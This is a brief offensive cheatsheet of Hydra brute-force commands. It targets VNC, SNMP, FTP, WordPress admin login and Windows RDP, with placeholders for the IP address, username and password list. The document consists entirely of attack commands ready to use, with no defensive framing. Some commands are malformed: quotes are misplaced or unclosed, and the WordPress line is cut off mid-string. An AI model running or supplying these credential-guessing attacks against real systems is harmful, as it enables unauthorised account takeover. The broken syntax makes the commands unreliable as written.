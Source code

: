 # Brute-force

## Hydra

* [https://github.com/frizb/Hydra-Cheatsheet](https://github.com/frizb/Hydra-Cheatsheet)

#### VNC:

```
hydra -P "<passlist>" -t 1 <ip> vnc -v
```



#### SNMP:

```
hydra -P "<passlist"> -v <ip> snmp -v
```



#### FTP:

```
hydra -t 1 -l '<username> -P "<passlist>" <ip> ftp -vV
```



#### Wordpress Admin Login:

```
hydra -l admin -P <passlist> <ip> -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Locatio
```



#### Windows RDP:

```
hydra -t 1 -V -f -l administrator -P <passlist> rdp://<ip>
```
